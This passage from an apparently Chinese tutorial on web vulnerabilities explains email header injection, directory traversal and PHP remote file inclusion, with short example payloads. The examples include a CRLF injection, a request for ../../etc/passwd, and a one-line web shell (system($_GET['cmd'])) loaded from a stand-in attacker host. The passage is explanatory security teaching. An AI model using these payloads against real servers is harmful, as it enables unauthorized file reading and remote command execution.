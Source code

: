 ```
bob@hacker.jp%0D%0A%0D%0ATest Message
```
两个连续的换行符就有可能篡改邮件文本内容并发送

### 2.6 目录遍历攻击
目录遍历攻击是指对本无意公开的文件目录，通过非法截断其目录路径后，达成访问目的的一种攻击。这种攻击有时也被称为路径遍历攻击。

用户可使用../等相对路径定位到/etc/passed等绝对路径上，因此服务器上任意的文件或文件目录都可被访问到。就有可能非法浏览、篡改、或删除Web服务器上的文件。应该关闭指定对任意文件名的访问权限。

#### 目录遍历攻击案例
读取指定的文件：
```
http://example.com/red.php?log=0401.log
```

攻击者设置如下查询字段后发出请求：
```
http://example.com/red.php?../../etc/passwd
```
![目录遍历攻击](/Blog/images/HTTP图解/11目录遍历攻击.png)  

### 2.7 远程文件包含漏洞
远程文件的包含漏洞是指当部分脚本内容需要从其他文件读取时，攻击者利用指定外部服务器的URL充当依赖文件，让脚本读取后，就可运行任意脚本的一种攻击。

这主要是PHP存在的安全漏洞。
#### 远程文件包含漏洞的攻击案例
```
http://example.com/foo.php?mod=news.php

//foo.php对应脚本代码如下
$modname=$_GET['mod'];
include($modname);
```
攻击者指定如下请求：
```
http://example.com/foo.php?mod=http://hacker.jp/cmd.php&cmd=ls

//cmd.php对应脚本代码如下
<? system($_GET['cmd']) ?>
```
假设Web服务器（example.com）的include能引入外部服务器的URL，那就会读入攻击者在外部服务器上事先准备的URL（http://hackr.jp/cmd.php）。结果，通过system函数就能在Web服务器上执行查询字段指定的OS命令了。

![远程文件攻击](/Blog/images/HTTP图解/11远程文件攻击.png)  

## 3. 因设置或设计上的缺陷引发的安全漏洞
因设置或设计上的缺陷引发的安全漏洞是指，错误设置Web服务器，或是由设计上的一些问题引起的安全漏洞。

### 3.1 强制浏览
从安置在Web服务器的公开目录下的文件中，浏览那些原本非自愿公开的文件。

